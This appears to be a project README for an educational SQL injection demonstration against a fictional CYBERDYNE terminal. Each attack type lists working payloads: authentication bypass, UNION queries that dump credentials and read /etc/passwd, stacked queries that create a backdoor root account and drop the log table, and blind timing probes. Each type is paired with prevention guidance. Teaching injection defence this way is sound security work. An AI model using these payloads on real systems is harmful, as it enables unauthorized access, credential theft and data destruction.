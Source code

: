 # 🔒 SQL Injection Attack Demonstration 🔒
## "Operation Secure CYBERDYNE" 🤖

### 📋 Project Overview
This project demonstrates SQL injection vulnerabilities in a simulated CYBERDYNE Systems mainframe. As ethical hackers, we've been tasked with identifying security flaws before real attackers can exploit them.

> **Scenario**: CYBERDYNE Systems has hired our cybersecurity team to perform penetration testing on their new mainframe terminal. Our mission is to find and document SQL injection vulnerabilities before their system goes live.

### 🛠️ Demo Interface
The project includes an interactive terminal interface that simulates the CYBERDYNE MAINFRAME with multiple attack vectors demonstrated through a realistic user interface. The terminal includes:

- Authentication bypass panel
- Data exfiltration tools
- System takeover capabilities
- Blind injection techniques

Each panel showcases different SQL injection vulnerabilities with example payloads that highlight the risk.

## 🔴 Attack Vectors & Prevention Methods

### 1️⃣ Authentication Bypass 🔑
**Attack Payloads:** 
- Basic Bypass: `' OR '1'='1' -- `
- Admin Access: `ADMIN' -- `
- Credential Dump: `' UNION SELECT 1,CONCAT(username,':',password),3,4,5,6,7,8,9 FROM employees -- `

**Scenario:**  
Our ethical hacking team found a security badge terminal that validates credentials against the database. We discovered that entering these payloads in the badge field gives unauthorized access to the system!

```sql
-- Original query:
SELECT * FROM employees WHERE badge_id = 'ENTERED_BADGE'

-- Injected query:
SELECT * FROM employees WHERE badge_id = '' OR '1'='1' -- '
```

**Prevention:** ✅
- Use prepared statements: `$stmt = $pdo->prepare("SELECT * FROM employees WHERE badge_id = ?");`
- Implement proper input validation
- Add multi-factor authentication

### 2️⃣ Data Exfiltration 📊
**Attack Payloads:**
- Database Version: `%' UNION SELECT 1,@@version,3,4,5 -- `
- Table Enumeration: `%' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5 FROM information_schema.tables WHERE table_schema=database() -- `
- File Read: `%' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5 -- `

**Scenario:**  
During our project search testing, we discovered we could extract database schema information by injecting UNION queries, revealing sensitive tables and even accessing system files.

```sql
-- Original query:
SELECT * FROM projects WHERE project_name LIKE '%ENTERED_SEARCH%'

-- Injected query:
SELECT * FROM projects WHERE project_name LIKE '%' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5 FROM information_schema.tables WHERE table_schema=database() -- %'
```

**Prevention:** ✅
- Use parameterized queries
- Apply proper data access controls
- Implement input validation
- Disable dangerous database functions

### 3️⃣ System Takeover 💻
**Attack Payloads:**
- Privilege Escalation: `enable_root'; UPDATE employees SET access_level='root' WHERE username='hacker' -- `
- Create Admin User: `disable_firewall'; INSERT INTO employees (badge_id, username, password, access_level) VALUES ('666-666','hacker','pwned','root') -- `
- Destroy Evidence: `wipe_logs'; DROP TABLE access_logs -- `

**Scenario:**  
Our team found that the admin override function had critical vulnerabilities allowing us to execute arbitrary SQL commands that could modify data, create backdoor accounts, or destroy evidence.

```sql
-- Original query:
UPDATE system_config SET status='active' WHERE option='ENTERED_COMMAND'

-- Injected query:
UPDATE system_config SET status='active' WHERE option='enable_root'; UPDATE employees SET access_level='root' WHERE username='hacker' -- '
```

**Prevention:** ✅
- Use prepared statements for ALL database operations
- Validate input with strict patterns
- Implement transaction isolation
- Use database-level access controls

### 4️⃣ Blind Injection 🕵️
**Attack Payloads:**
- Time-Based: `' AND (SELECT 1 FROM (SELECT IF(SUBSTRING(@@version,1,1)='8',SLEEP(5),0)) as subquery) -- `
- Boolean-Based: `' OR (SELECT COUNT(*) FROM nuclear_codes) > 0 -- `
- Information Extraction: `' OR EXISTS (SELECT 1 FROM employees WHERE username='sysadmin' AND password LIKE 'K%') -- `

**Scenario:**  
While testing the debug console, we found that although it doesn't display query results directly, we could extract information by observing response times or changes in behavior.

```sql
-- Original query:
SELECT status FROM system_config WHERE component = 'ENTERED_COMPONENT'

-- Injected time-based query:
SELECT status FROM system_config WHERE component = '' AND (SELECT 1 FROM (SELECT IF(SUBSTRING(@@version,1,1)='8',SLEEP(5),0)) as subquery) -- '
```

**Prevention:** ✅
- Use prepared statements
- Implement request timeouts
- Add proper error handling
- Monitor for suspicious timing patterns

## 🛡️ Comprehensive Prevention Methods

### 1. Parameterized Queries
```php
$stmt = $pdo->prepare("SELECT * FROM employees WHERE badge_id = ?");
$stmt->execute([$badge_id]);
```

### 2. Input Validation
```php
if (!preg_match('/^CD-\d{3}$/', $badge_id)) {
    throw new ValidationException("Invalid badge format");
}
```

### 3. Least Privilege Principle
```sql
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'secure_password';
GRANT SELECT ON cyberdyne.projects TO 'app_user'@'localhost';
```

### 4. Error Handling
```php
try {
    // Database operations
} catch (Exception $e) {
    logError($e->getMessage());
    echo "An error occurred. Please try again.";
}
```

### 5. Web Application Firewall (WAF)
Implement a security layer to detect and block malicious SQL patterns.

## 📝 Conclusion
Our ethical hacking team successfully identified several SQL injection vulnerabilities in the CYBERDYNE mainframe terminal. By implementing the recommended prevention methods, particularly parameterized queries, CYBERDYNE can secure their database against malicious attacks.

This demonstration shows why security must be built into applications from the beginning, not added as an afterthought. Regular security audits and developer training are essential components of a robust security strategy.

> **Important Note**: This project is for educational purposes only. The techniques demonstrated should only be used for ethical security testing with proper authorization. Real attacks using these methods are illegal and unethical.